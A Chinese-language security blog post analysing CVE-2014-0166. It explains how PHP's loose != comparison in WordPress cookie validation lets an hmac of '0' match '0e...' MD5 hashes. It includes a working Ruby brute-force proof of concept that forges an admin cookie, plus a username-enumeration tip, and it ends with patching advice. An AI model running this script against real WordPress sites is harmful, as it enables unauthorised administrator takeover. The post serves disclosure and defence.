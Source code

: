 ```yaml
---

title: "CVE-2014-0166 WordPress 偽造 Cookie 弱點"
description: "CVE-2014-0166 是 WordPress 上面驗證登入 cookie 的弱點，攻擊者可以暴力偽造出合法 cookie，藉此獲得 WordPress 最高權限，進而拿到 shell 取得系統操作權。"
category: "技術專欄"
tags: [Vulnerability, CVE, WordPress, Brute-force]
author: "shaolin"
keywords: ""
---
```




### 前言

在一陣 OpenSSL Heartbleed 淘金潮中，又有一個技術門檻低、後果嚴重、也同樣需要些運氣的漏洞被揭發－[CVE-2014-0166](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-0166)。CVE-2014-0166 是 WordPress 上面驗證登入 cookie 的弱點，攻擊者可以暴力偽造出合法 cookie，藉此獲得 WordPress 最高權限，進而拿到 shell 取得系統操作權。
讓我們來分析一下這次的弱點是發生了什麼事吧！

READMORE

### 解析

這次出問題的程式碼在[這邊](https://github.com/WordPress/WordPress/blob/684145ca8101e9ba5d9b4516709121fbe0fb9aee/wp-includes/pluggable.php#L650)，關鍵程式碼如下：

{% highlight php startinline %}$key = wp_hash($username . $pass_frag . '|' . $expiration, $scheme);
$hash = hash_hmac('md5', $username . '|' . $expiration, $key);

if ( $hmac != $hash ) {
  /**
   * Fires if a bad authentication cookie hash is encountered.
   *
   * @since 2.7.0
   *
   * @param array $cookie_elements An array of data for the authentication cookie.
   */
  do_action( 'auth_cookie_bad_hash', $cookie_elements );
  return false;
}
{% endhighlight %}

問題主要發生在比較運算子 != 上面，!= 運算子是 non-strict，會在比較前先做型態轉換，所以下面看似應該是回傳 true 的例子，全部都顯示為 false，細節請參閱[官方手冊](http://www.php.net/manual/en/language.operators.comparison.php)。

{% highlight php startinline %}var_dump(0 != "a"); // 0 != 0 -> false
var_dump("1" != "01"); // 1 != 1 -> false
var_dump("10" != "1e1"); // 10 != 10 -> false
var_dump(100 != "1e2"); // 100 != 100 -> false
var_dump( "0" != "0e10123456789012345678901234567890" ); // 0 != 0 -> false
{% endhighlight %}

進入正題，WordPress 認證身分用的 cookie 內容是這樣的：『username|expiration|hmac』。<br>
username 是使用者名稱，<br>
expiration 是有效期限(timestamp)，<br>
hmac 值用來驗證 cookie 是否合法。<br>
從上面程式碼可以看到，hmac 的算法是經過 username、pass_frag、expiration、key 綜合得出。若有辦法控制 cookie 中的 hmac 使伺服器認為該 cookie 合法，就可以成功偽造成 username。

利用稍早提到的比較運算子問題，若我們讓 cookie 中的 hmac 值為 0，很有可能讓判斷式變成下面這樣：

{% highlight php startinline %}//if ( $hmac != $hash ) {
  if ( "0" != "0e10123456789012345678901234567890" ) {
    do_action( 'auth_cookie_bad_hash', $cookie_elements );
    return false;
  }
{% endhighlight %}

如此便可以通過驗證，成功偽造合法 cookie。<br>
而為了讓 $hash == 0，可以不斷改變 cookie 中的 expiration，讓產生的 MD5 值($hash)經過型態轉換後剛好變成 0。<br>
符合 $hash == 0 的 MD5 $hash 值有 
0eXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX、00eXXXXXXXXXXXXXXXXXXXXXXXXXXXXX....000000000000000000000000000eX、00000000000000000000000000000 (X = 0,1,2,3,4,5,6,7,8,9)

故出現 $hash == 0 的機率為 Sum(10^n,n=0,30)/16^32 = 3.265262085617465e-09

每次偽造的成功機率約為三億分之一，並不會很高，但已經足夠在一個月內拿到最高權限，而且所耗成本並不會很高。

### 實驗

為了驗證此方法之可行性，我們架設了 [WordPress 3.8.1](http://tw.WordPress.org/WordPress-3.8.1-zh_TW.zip) 環境。並且寫程式將登入 cookie 中的 hmac 設為 0，不斷調整 expiration 值測試是否已經登入，程式如下：

{% highlight ruby %}
require 'httpclient'

http = HTTPClient.new

cookie_name = "WordPress_logged_in_de5be3cf9fcea023a1303527e10ea67a"
timestamp = Time.now.to_i

(timestamp..timestamp+800000000).each do |time|
  result = http.get('http://domain.my/WordPress/', nil, {"Cookie"=>"#{cookie_name}=admin%7C#{time}%7C0"})
  if result.body.include? 'logout'
    puts "admin%7C#{time}%7C0"
    break
  end
end
{% endhighlight %}

> 註：此程式為 POC，請自行調整為多執行緒版本，不然速度會很慢。

經過一段長時間的等待，得到的結果如下：

[![暴力偽造 cookie，直到成功登入](https://lh6.googleusercontent.com/-_iTb2VFAarU/U06kKNXwlzI/AAAAAAAAASo/KKIPDLcRaac/w402-h57-no/iTerm.png "暴力偽造 cookie，直到成功登入")](https://lh6.googleusercontent.com/-_iTb2VFAarU/U06kKNXwlzI/AAAAAAAAASo/KKIPDLcRaac/w402-h57-no/iTerm.png)

得知當 cookie 中的 username 為 admin 且 expiration 值為 1421818232 時，伺服器算出來的 hmac 經過型態轉換會變成 0。我們將測試成功的 cookie 值： admin%7C1421818232%7C0 貼到瀏覽器上。成功變成 admin 如下圖，實驗成功！

[![利用偽造的 cookie 登入 WordPress](https://lh3.googleusercontent.com/-Ccf0fswoJX0/U06kL69lmeI/AAAAAAAAASo/Biroo08YcQI/w978-h544-no/Mantra1.png "利用偽造的 cookie 登入 WordPress")](https://lh3.googleusercontent.com/-Ccf0fswoJX0/U06kL69lmeI/AAAAAAAAASo/Biroo08YcQI/w978-h544-no/Mantra1.png)

> 註：一般狀況，若不知道 WordPress 最高權限的帳號，可以利用 WordPress 的 feature 在 http://your.WordPress.com/?author=$id ($id: 1,2,3,4...,999,...) 頁面中列舉所有使用者帳號。通常 $id = 1 的 author 都有 WordPress 的管理權限。

### 結論

最近出現了一個高風險通報 CVE-2014-0166，其中提及 WordPress 在舊版驗證 cookie 的部分出現弱點，可以偽造合法 cookie，進而取得 WordPress 管理權限。本文分析了其原理，並且證實之。

對於攻擊者而言，雖然每次偽造 cookie 成功的機率約為三億分之一並不高，但發送三億個 request 後或許能拿到最高權限，已經是值得投資的級數。

對於 WordPress 管理者而言，建議立即更新至 3.8.2 以後版本，以免受到此風險攻擊。

從此事件也提醒了 PHP 開發者，在撰寫重要的驗證行為，要特別注意 PHP 比較運算子的特性，請使用 === (不等於請用 !==)來保證等式左右型態與值為一樣，避免因為轉型造成的資安風險。


